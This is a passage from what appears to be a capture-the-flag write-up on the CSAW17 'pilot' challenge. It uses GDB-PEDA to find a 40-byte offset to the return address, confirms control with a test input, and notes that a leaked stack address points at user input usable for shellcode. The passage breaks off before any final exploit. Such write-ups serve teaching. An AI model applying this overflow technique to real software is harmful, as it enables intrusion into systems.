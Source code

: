 ~~~
Program received signal SIGSEGV, Segmentation fault.
~~~

<br>
![pilotPatternPEDA]({{ site.url }}/assets/images/pilotpatternpeda.png){: .center-image}

<br>
Armed with the portion of the unique string that overwrites the return address, we can provide this value as input for the 'pattern_offset' utility to calculate the exact offset in our user input string/buffer:

~~~
# pattern_offset -l 100 -q 0x3562413462413362
[*] Exact match at offset 40
~~~

<br>
At this point, we've determined that we have to provide exactly 40 bytes of input before we can overwrite the subsequent 8 bytes (return address on the stack). We can validate this by providing an input string of 40 "A"s and 8 "B"s:

~~~
# gdb ./pilot

[..snip..]

gdb-peda$ run < <(python -c 'print "A"*40 + "B"*8')
Starting program: /media/sf_CSAW17/Pwn/pilot/pilot < <(python -c 'print "A"*40 + "B"*8')
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffe170
[*]Command:
Program received signal SIGSEGV, Segmentation fault.
~~~

<br>
![pilotABPEDA]({{ site.url }}/assets/images/pilotABpeda.png){: .center-image}

<br>
This confirms our theory. Now that we are able to cleanly overwrite the return address with a value of our choice, we need to determine what that value should be to facilitate shellcode execution. If you've been paying careful attention, you may have caught on to the fact that the value for "Location" being provided by the local binary has been static and points to the beginning of our user input stored in the RSI register (0x7fffffffe170). This works out perfectly, because we have full control over this content. 

<br>
![pilotRSIPEDA]({{ site.url }}/assets/images/pilotRSIpeda.png){: .center-image}
